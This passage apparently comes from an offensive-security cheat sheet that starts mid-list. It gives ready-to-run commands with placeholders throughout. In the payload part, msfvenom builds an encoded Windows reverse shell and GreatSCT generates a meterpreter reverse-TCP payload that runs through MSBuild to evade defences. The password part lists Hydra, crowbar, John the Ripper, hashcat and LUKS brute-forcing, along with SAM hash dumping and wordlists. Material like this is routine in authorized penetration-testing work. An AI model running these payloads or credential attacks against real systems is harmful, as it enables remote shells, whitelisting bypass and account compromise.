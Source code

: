     - Auto Mode : A
    - PE Target : `{whoami.exe}`
    - Stealth mode : N
    - Custom : C
    - Payload : `{raw_file}`
        - `msfvenom -p windows/shell_reverse_tcp LHOST={IP} LPORT={PORT} -e x86/shikata_ga_nai -f raw > {FILE}.raw`
    - DLL Loader : N
- GreatSCT
    - Must run in x86 kali
    - `use Bypass`
    - `msbuild/meterpreter/rev_tcp.py`
    - `SET LHOST {IP}`
    - `SET LPORT {PORT}`
    - `generate`
    - Get payload xml (Default : `/usr/share/greatsct-output/source/`)
    - `C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe {PATH OF XML}`
## Password Crack
### Software
- Hydra
    - Crack online services password
        - SMB,SSH,FTP......
    - Usage
        - ssh
            - `hydra -l {username} -P {path_to_wordlist} ssh://{ip_address}`
        - http{s} Post
            - `hydra -l {username} -P {path_to_wordlist} {domain_name_without http/s} http{s}-post-form "{/{path}}:username=^USER^&password=^PASS^&data=data:{string_if_fail}"`
        - ftp
            - `hydra -l {username} -P {wordlist} ftp://{IP}`
- Cowbar
    -  `crowbar -b rdp -s {IP}/32 -U {User List} -C {Password List}`
- John the ripper
    - Crack hash like `/etc/shadow`
    - Support tools
        - [ssh2john](https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py)
        - gpg2john
        - zip2john
        - samdump2
        	- NTLM 2 John
        	- `samdump2 system sam > j.txt`
    - Usage
        - `john {file} --wordlist={wordlist}`
- Hashcat
    - Crack hash 
        - https://hashcat.net/wiki/doku.php?id=example_hashes
    - `hashcat -m {mode} {hashes.txt} {wordlist.txt}`
- LUKS
    - `bruteforce-luks -t 10 -f wordlist.txt -v 5 backup.img`
    - `sudo cryptsetup open --type luks backup.img {mount_name}`
    - `sudo mount /dev/mapper/{mount_name} mount_point`
### Dictionary
- rockyou.txt
- https://github.com/danielmiessler/SecLists
	- [xato-net-10-million-passwords-dup.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/xato-net-10-million-passwords-dup.txt)
- Apache Tomcat
    - `/usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt`
    - `/usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt`
- Generate Wordlist
    - Cewl